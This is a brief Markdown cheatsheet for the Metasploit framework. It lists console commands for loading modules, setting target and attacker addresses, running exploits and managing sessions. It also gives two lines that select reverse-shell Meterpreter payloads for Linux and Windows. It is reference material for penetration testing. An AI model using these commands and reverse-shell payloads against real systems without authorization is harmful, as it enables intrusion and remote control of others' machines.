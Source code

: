 
# Metasploit Cheatsheet 🧠

## Global Commands

| Command | Description |
|--------|-------------|
| `search <name>` | Search modules |
| `use <module>` | Load a module |
| `info` | Show module info |
| `set RHOST <ip>` | Target IP |
| `set LHOST <ip>` | Attacker IP |
| `set PAYLOAD <payload>` | Choose payload |
| `exploit` | Run the exploit |
| `sessions` | View active sessions |
| `background` | Background session |

## Payload Examples

```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set PAYLOAD windows/meterpreter/reverse_http
